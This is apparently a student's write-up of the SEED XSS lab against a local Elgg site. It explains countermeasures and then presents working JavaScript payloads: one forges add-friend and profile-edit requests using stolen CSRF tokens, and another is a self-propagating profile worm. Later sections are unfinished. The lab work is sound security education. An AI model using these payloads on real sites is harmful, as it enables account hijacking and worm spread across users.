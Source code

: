 # Background
## What is XSS attack?
![[Drawing 2023-11-20 15.57.56.excalidraw|650]]
## Countermeasures
1. Sanitize(Filter): The goal for this countermeasure is to remove the code from user's inputs. Usually, the malicious code are embedded with a script tag. Therefore, by deleting this tag, the malicious code can be treated as normal text. 
2. Encoding: Similar to the first method, we can use the ASCII characters to treat the tag brackets '<' and '>' as characters by encoding them. It can also make the malicious code be text. 
3. Content Security Policy: This is a method to control the script usage of the files. For example, we can only allow the website use the same source script. We can also restrict the inline script with nonces to prevent users from using unknown source scripts. 
# Task 1
## Results and Screenshots
Input: 
`<script>alert('xss')</script>` 
Output: 
![[Pasted image 20231120123001.png|650]]
## Explanation
For the website input, it has a "Edit HTML" button which allows the users to input the HTML tags directly without sanitizing them. Therefore, if we put script tags inside the input box, the website would run the code between the script tags. When we click the save button, it will also put everything into the database as the script tag, which means every user who access this page will automatically run the not sanitized code. 
# Task 2
## Results and Screenshots
Captured: 
`http://www.seed-server.com/action/friends/add? friend=59&__elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw&_ _elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw`
Script: 
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token;  
var sendurl= "http://www.seed-server.com/action/friends/add? friend=59"+ts+token+ts+token; 
Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); 
Ajax.send(); 
}
</script>
```
Alice's account automatically sent the request: (When refresh, the button automatically changed from "Add Friend" to "Remove Friend")
![[Pasted image 20231120125238.png|650]]
## Questions
1. Question 1: Explain the purpose of (1) and (2), why are they needed? 
Answer: The website contains countermeasures regarding the CSRF attack. The token and the timestamp are used as a verification of user's status. Therefore, the two lines are used to directly extract the CSRF token and timestamp to the variable to use them easily. 
2.  If the Elgg application only provides the Rich Text Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode (“Edit HTML”), can you still launch a successful attack?
Answer: Yes. Usually, the Rich Text Editor contains safety measures to clear the malicious input. They usually intend to delete HTML tags inside the user input. However, we can directly modify the content in the input tag to avoid the additional verification. 
# Task 3
## Results and Screenshots
Input: 
```
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp
__elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="&description=<p>samy is my
hero</p>"+ts+token+userName+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
When Alice is accessing Samy's web page, we can see the request is automatically sent.![[Pasted image 20231120132828.png|650]]Alice's profile after visit Samy's Profile: 
![[Pasted image 20231120132859.png|650]]
## Questions
3. Why do we need Line (1)? If we do not add this check, can the attack be successful? How come we do not have such a check in the add-friend attack (add_friend.js)? 
Answer: If we do not add this check, when Samy is checking his own page, the malicious code may copy the text "Samy is my hero" to his own profile, which will overwrite the malicious content. For add_friend.js, the malicious code does not do any overwrite, it only send the get request to the server to add Samy as friend. When Samy access the server, the server would not accept a request that add himself as a friend. Therefore, adding this if statement or not will not influence the result of the attack. 
# Task 4
## Results and Screenshots
Input: 
```
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
alert(jsCode);
window.onload = function(){
userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; 
var content="&description="+wormCode+ts+token+userName+guid; 
var samyGuid=59; 
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid) { 
var Ajax=null; 
Ajax=new XMLHttpRequest(); 
Ajax.open("POST", sendurl, true); 
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
Ajax.send(content); } 
}
```
Samy's Profile: (After put the worm)
![[]]
Alice Profile (Before put the worm):
![[306]]
Alice Profile (After visit Samy's Profile):
Boby Profile (Before visit Alice's Profile):
Boby Profile (After visit Alice's Profile):

# Task 5
## Results and Screenshots
## 
